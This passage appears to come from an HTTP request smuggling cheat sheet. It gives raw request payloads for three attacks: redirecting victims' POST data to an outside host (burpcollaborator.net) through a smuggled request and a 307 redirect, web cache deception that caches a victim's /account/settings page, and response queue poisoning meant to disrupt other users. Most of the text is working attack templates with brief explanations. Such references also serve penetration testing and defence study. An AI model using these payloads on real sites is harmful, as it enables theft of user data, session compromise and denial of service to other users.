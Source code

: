 (Avoid accidental cache poisoning with cache-busting headers in the followup request)
#### Stealing user data with 307 redirect (Type 2)

 if there is an endpoint where the backend server responds with 307 and the user request contains any post data, the browser will try to send the data to the malicious site.

```http
POST /home HTTP/1.1  
Host: redacted  
Content-Length: 57  
Transfer-Encoding: chunked  
  
0  
  
POST /assets HTTP/1.1  
Host: burpcollaborator.net  
X: XPOST /login HTTP/1.1
```


### Web cache deception (Type 2)

- Caching the victim response page and then accessing it. (no-cache directive is not explicitly set in  /account/settings endpoint)

```http
POST / HTTP/1.1  
Content-Length: 57  
Transfer-Encoding: chunked  
  
0  
  
GET /account/settings HTTP/1.1  
X: XGET /static/site.js HTTP/1.1  
Cookie: sessionid=victim
```


#### Response Queue Poisoning

if Possible smuggle an entire http request so according to backend there are two requests leading to complete disruptions for all other user requests which uses the pipeline.

```http
POST / HTTP/1.1  
Content-Length: 57  
Transfer-Encoding: chunked  
  
0  
  
GET /account/settings HTTP/1.1  
Host: example.com

```

### Header Mutations
